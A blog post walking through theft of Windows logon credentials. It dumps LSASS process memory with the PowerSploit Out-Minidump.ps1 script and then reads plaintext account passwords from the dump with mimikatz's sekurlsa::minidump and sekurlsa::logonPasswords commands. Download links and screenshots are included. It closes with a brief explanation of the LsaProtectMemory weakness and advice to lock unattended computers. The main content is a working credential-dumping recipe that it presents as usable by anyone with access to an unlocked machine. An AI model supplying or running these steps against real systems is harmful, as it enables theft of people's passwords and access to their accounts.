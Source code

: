 ```yaml
---
layout: post
title: Your Windows passwords are vulnerable and hackable in less than 5 minutes
description: This is a simple how-to article demonstrating existing vulnerability that makes your Windows passwords are hackable.
keywords: Windows passwords, logon password, LsaProtectMemory, LsaUnprotectMemory, lsass.exe, Windows vulnerability, mimikatz terminal, powershell script, out-minidump, minidump
tags: [Windows, PowerShell, Vulnerability, Encryption, Decryption]
comments: true
---
```


**Did you know that your Windows passwords are vulnerable and hackable in less than 5 minutes?**

Yep, even in Windows 10, the method is still working nicely. **The method is not new at all.** So, let me show how you can reproduce it by using a simple exploitation tool and a PowerShell script. **Anyone can perform this hacking when you left your computer unlocked.** I'm not really going to explain the details, just go straight to the steps. Google Search is on your fingertips if you are keen to explore more.

### Getting started

First, you need to download or get this tool called [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) (just get the binary package, e.g. **mimikatz_trunk.zip**) and this PowerShell script [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) by Matthew Graeber. Let's start!

### Using PowerShell to perform memory dump

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, we will use the PowerShell script, **Out-Minidump.ps1**. The flow of cmdlet will look like this:

{% include figure.html src="http://i.imgur.com/1lQnyhZ.png" caption="PowerShell cmdlet" %}

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### Using mimikatz terminal program to view the passwords

As you can see, `lsass_868.dmp` is the example of LSASS dump file captured using the PowerShell script. Now, it's time we use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

{% include figure.html src="http://i.imgur.com/OPA0g0w.png" caption="mimikatz MINIDUMP" %}

Switching to MINIDUMP file, so now we can view the passwords. Now, run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

{% include figure.html src="http://i.imgur.com/nWPZUIR.jpg" caption="mimikatz logonPasswords" %}

Tadaa... Now I can see my actual Microsoft Account username and password in **a plain text**. As you imagine, most of people nowadays are still using the same password for almost everything. _Too bad.._ So, I expected you can picture all the consequences with this vulnerability...

### The existing vulnerability info

The fact is that the password is encrypted but it's useless as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). And Windows stores encrypted user passwords in memory without using one-way hash which is decryptable using **LsaUnprotectMemory** function to a plain text.

### The bottom line

You will be safe as long as you always lock your computer when you're away. For more explanations and security advices, you might want to check the [original article here](http://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes). This short article is just to remind me or anyone else to always be careful in whatever we do especially with anything to do with our passwords and personal credential information. No system is perfect! DON'T LEAVE YOUR COMPUTER UNLOCKED.
